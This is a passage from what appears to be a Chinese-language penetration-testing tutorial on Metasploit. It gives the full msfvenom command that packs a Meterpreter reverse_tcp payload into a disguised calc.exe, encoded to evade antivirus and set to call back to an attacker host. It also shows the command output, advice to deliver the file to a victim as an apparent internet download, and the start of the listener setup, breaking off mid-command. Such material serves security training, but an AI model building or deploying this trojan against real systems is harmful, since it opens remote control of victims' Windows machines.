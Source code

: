 作为 Metasploit 使用的示例，我们考虑一种情况，其中 Meterpreter 被打包成一个可执行文件，并在一个不谨慎用户的 Windows 工作站上执行。结果，Meterpreter 与预定义的 IP 地址（攻击者的机器）建立连接，允许攻击者在受害者的工作站上执行命令：

1.  首先，让我们创建我们的有效负载。为此，我们应执行以下命令：

    ```
    **msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.0.191 lport=8888 -a x86 --platform win -e x86/shikata_ga_nai -i 3 -x calc.exe -f exe-only > payload_fake_calc_enc.exe**

    ```

    在这里：

    +   -`p windows/meterpreter/reverse_tcp`：此选项指定我们将使用的有效负载（要查看支持的完整有效负载列表，只需执行命令`msfvenom –l payloads`）

    +   `lhost=10.0.0.191`：此选项指定攻击者主机的地址以供回连

    +   `lport=8888`：此选项指定回连的端口号

    +   `-a x86`：此选项指定目标系统的架构

    +   `--platform win`：此选项指定目标系统的平台

    +   `-e x86/shikata_ga_nai`：此选项指定要应用于有效负载的编码算法，以尽量避免被防病毒软件检测到

    +   -`i 3`：此选项指定所需的编码迭代次数

    +   `-x calc.exe`：此选项指定作为模板使用的自定义可执行文件

    +   `-f exe-only`：此选项指定输出格式

    +   `payload_fake_calc_enc.exe`：这是我们生成的恶意可执行文件的输出文件名

1.  此命令的输出应如下所示：

    ```
    **Found 1 compatible encoders**
    **Attempting to encode payload with 3 iterations of x86/shikata_ga_nai**
    **x86/shikata_ga_nai succeeded with size 360 (iteration=0)**
    **x86/shikata_ga_nai succeeded with size 387 (iteration=1)**
    **x86/shikata_ga_nai succeeded with size 414 (iteration=2)**
    **x86/shikata_ga_nai chosen with final size 414**
    **Payload size: 414 bytes**

    ```

1.  现在我们有了 `payload_fake_calc_enc.exe` 文件，接下来需要将该文件传输到受害者主机。你可以直接复制到那里，并假设受害者/用户是从互联网下载的该文件。

1.  现在，我们需要在攻击者的机器上开始监听传入的连接。为此，通过在控制台中执行命令`msfconsole`来启动 Metasploit Framework。几秒钟后，Metasploit 将加载并启动，邀请我们进入命令提示符。

1.  要开始监听，让我们选择所需的模块：

    ```
    **msf > use exploit/multi/handler** 

    ```

    设置要等待连接的有效负载类型：

    ```
    **msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcpand** 
